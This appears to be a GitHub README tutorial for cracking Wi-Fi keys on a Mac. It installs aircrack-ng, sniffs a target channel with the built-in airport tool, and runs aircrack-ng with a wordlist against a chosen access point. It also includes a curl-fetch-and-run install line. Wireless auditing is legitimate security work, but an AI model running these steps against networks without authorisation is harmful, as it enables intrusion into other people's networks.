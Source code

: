 # Install Aircrack-ng, Sniffing by Airport, and using Aircracking-ng on Mac

<h2>1. Install HomeBrew</h2> 
at https://brew.sh by terminal. Paste that at a Terminal prompt.


<blockquote><p>/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"</p></blockquote>

<h2>2. Install the aircrack-ng and create necessary links:</h2>

  With the homebrew installed, use this command to install aircrack-ng:
  
<blockquote><p>brew install aircrack-ng</p></blockquote>

  Link the folder from Homebrew "/usr/local/Cellar/" to the "/usr/local/bin/" in order to use the program directly on terminal. The number 1.3 can be replaced to the version you install. 
  
<blockquote><p>sudo ln -s /usr/local/Cellar/aircrack-ng/1.3/bin/aircrack-ng /usr/local/bin/aircrack-ng</p></blockquote>

  Other tool that will be necessary is the airport. So we will create a other link to use directly on terminal. Airport is already inside Mac OS. We use Airport to scan the wifis, disconnect to wifis, turn on mornitor mode and sniffing.

<blockquote><p>sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport</p></blockquote>

<h2>3. Scanning wifis and disconnect to network:</h2>

  While we turn the wifi card to the monitor mode, we can not use the scanning function normally. The purpose of airport is scanning the wifis nearby and show information about that network, such as: SSID, BSSID, channel, RSSI...
Use the following command to check:

<blockquote><p>airport -s</p></blockquote>

  Now in order to turn wifi card to mornitor mode, we have to disconnect with any network is connecting. You can do it by manual go to Network Preferences then unselect on Automatically join this network. Do this until it does not connect to any network. Or you just type the following command:

<blockquote><p>airport -z</p></blockquote>

  To check it working or not, by simply see the wifi simple on the menu bar on the top. Or type:

<blockquote><p>ifconfig</p></blockquote>

  and check the line status: inactive

<h2>4. Sniff the traffic on channel</h2>

  Sniff the channel selected.

<blockquote><p> airport "interface" sniff "channel" </p></blockquote>

  <interface> is the name of the wifi card. Mine is "en0". Get this from 
ifconfig
  <channel> is the channel of the wifi network target. Get this from
airport -s
    
  The sniffing action create a file airportSniff*.cap. You can see it at:

<blockquote><p>ls /tmp/airportSniff*.cap</p></blockquote>

  The longer the sniffing the better data we have.

Then we will pass this file to aircrack-ng

<h2>5. Using Aircrack-ng</h2>

<blockquote><p>aircrack-ng -1 -a 1 -b "BSSID" "cap_file" -w "wordlist"</p></blockquote>

      -1            : run only 1 try to crack key with PTW  
      -a <amode>    : force attack mode (1/WEP, 2/WPA-PSK)
      -b <bssid>    : target selection: access point's MAC
      <cap_file>    : the sniffing file we have from part 4 airportSniff*.cap
      -w <wordlist> : path to wordlist(s) filename(s). This optional but a good wordlist have greater chance to succeed 

<h2>6. Turn off mornitor mode</h2>

  Using the ps program displays the currently-running processes

<blockquote><p>ps -ax | grep -a airport.*sniff</p></blockquote>

find the airport <interface> sniff <channel> line and get the four number on the left
 
<blockquote><p>sudo kill -9 "the-four-number"</p></blockquote> 

<h3>Reference</h3>
https://www.aircrack-ng.org/doku.php?id=newbie_guide
https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx
https://maymay.net/blog/2010/12/05/one-minute-mac-tip-sniffing-wi-fi-traffic-and-capturing-packets-with-the-built-in-airport-utility/






